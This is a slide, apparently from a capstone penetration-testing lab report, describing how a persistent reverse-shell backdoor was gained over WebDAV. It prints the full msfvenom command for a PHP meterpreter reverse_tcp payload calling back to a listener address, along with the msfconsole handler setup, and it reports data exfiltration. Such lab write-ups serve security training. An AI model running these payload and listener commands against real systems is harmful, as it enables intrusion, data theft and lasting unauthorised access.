

# Exploitation: Persistent reverse shell backdoor
01

02

Tools & Processes

Following successful connection to the webdav, msfvenom was used to construct a reverse shell payload.

“msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=6666 -f raw > reverse_shell.php”

Then using msfconsole we configured a reverse tcp listener in order to gain a meterpreter session on the capstone machine with the following commands:

“msfconsole”
“use exploit/multi/handler”
“set payload php/meterpreter/reverse_tcp”
“set lport 6666”
“set lhost 192.168.1.90”
“run”

Now by copying the “reverse_shell.php” file to webdav, and executing it, we establish a successful reverse tcp connection

Achievements

In this case the reverse shell connection allowed for the successful exfiltration of sensitive data, and the persistent threat of a back door into the capstone machine, However the successful launching of a meterpreter session has the potential to cause unprecedented damage.